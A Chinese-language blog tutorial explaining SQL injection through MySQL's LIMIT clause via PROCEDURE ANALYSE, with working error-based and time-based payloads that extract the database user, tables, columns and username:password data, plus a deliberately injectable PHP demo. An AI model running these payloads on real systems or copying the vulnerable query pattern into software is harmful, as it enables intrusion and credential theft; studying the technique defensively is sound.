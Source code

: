 ```yaml
---
layout: post
title: Mysql in Limit Sql Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>
<center>
<img src="https://ww1.sinaimg.cn/mw690/9c5c5d93tw1erpyb5brduj20go08hgmc.jpg">
</center>

>sql注入在组合拼接方面一直都很灵活,因为语法本身就很灵活,不过Mysql的Limit下一直没办法注入,国外大牛发表了个[SQL Injections in MySQL LIMIT clause](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/)的paper,意在利用Mysql的一个优化建议函数ANALYSE()进行Limit处注入,`此方法适用于Mysql5.x`.

	SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point
	
**像这样的语句,由于后面跟着`ORDER BY`,所以无法UNION联合查询注入,那么就需要在LIMIT上找出路了**

Mysql5的`SELETCT`语法:

	SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
    
**LIMIT后面跟了两个函数,PROCEDURE和INTO,INTO除非有写入shell的权限，否则是无法利用的,那就看看PROCEDURE函数下能否注入.**

>一个测试表:

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/34324b9a.png">

**ANALYSE函数是可以查看表的优化建议**

	PROCEDURE ANALYSE([max_elements,[max_memory]])
	
ANALYSE函数后面可以有两个参数:

	select * from injection where id>0 order by id limit 0,1 procedure analyse(1,1);

<img src="https://ww4.sinaimg.cn/mw690/9c5c5d93tw1erqfqij043j20vo02qdhl.jpg">

看起来并不是很好，尝试下在`max_elements`处添加条件表达式:


	SELECT * from injection where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);

但是立即返回了一个错误信息:

<img src="https://ww1.sinaimg.cn/mw690/9c5c5d93tw1erqfqhkijbj20vk02u40x.jpg">

>sleep函数没执行,不过还是有办法的,利用updatexml or extractvalue函数进行报错注入:

**爆用户名:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,user()),0),1);
	
<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/213h8sad.png">

**爆表:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)),0),1);

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/XA78as89.png">

**爆字段:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(column_name) from information_schema.columns where table_name='injection' limit 0,1)),0),1);
	
<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/32BSF8.png">

**爆数据:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat_ws(':',id,username,password) from injection limit 0,1)),0),1);

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/sad782eq.png">

**如果不支持报错注入的话,还可以基于时间注入:**

	SELECT * FROM injection WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/3ewg87sdfb.png">

>一个Demo:

 	<?php
	/**
	 * Created by PhpStorm.
	 * User: Tr3jer
	 * Date: 15/1/24
	 * Time: 下午9:55
	 */
	include "Class_Mysql_Db_Model.php";
	
	$cof=new Config();
	$obj=new Mysql_Db_Model();
	$obj->connect($cof);
	
	$sql="select * from injection where id>0 order by id limit 0,{$_GET['id']}";
	
	if($obj->query($sql)){
		var_dump($row);
	}else{
		die(mysql_error());
	}
	
	mysql_close($obj);

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/3neiuwyfd.png">

>执行的语句:

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/2nuefdys8.png">

>Mysql内建的特性有很多,不过能够利用的缺陷还有待挖掘:)